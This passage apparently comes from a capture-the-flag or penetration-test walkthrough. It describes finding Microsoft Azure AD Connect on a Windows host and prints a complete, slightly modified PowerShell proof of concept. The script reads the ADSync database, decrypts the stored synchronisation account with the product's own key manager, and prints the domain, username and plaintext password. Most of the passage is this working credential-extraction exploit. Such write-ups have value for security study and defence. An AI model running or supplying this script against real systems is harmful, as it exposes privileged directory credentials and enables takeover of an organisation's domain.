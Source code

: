 Looking around in `C:\Program Files` we can find a lot of Microsoft Azure programs. After some research I came across [this article](https://blog.xpnsec.com/azuread-connect-for-redteam), which shows how to exploit `Microsoft Azure AD Connect` to extract credentials.

We can use the [exploit script](https://gist.githubusercontent.com/xpn/0dc393e944d8733e3c63023968583545/raw/d45633c954ee3d40be1bff82648750f516cd3b80/azuread_decrypt_msol.ps1) from the article, however we have to add `Integrated Security=true;` and change the `Data Source` from `localdb` to `local`. This results into following script:

```powershell
Write-Host "AD Connect Sync Credential Extract POC (@_xpn_)`n"

$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Data Source=(local);Initial Catalog=ADSync;Integrated Security=true;"
$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()

$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()

add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)

$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerXML}}

Write-Host ("Domain: " + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)
```
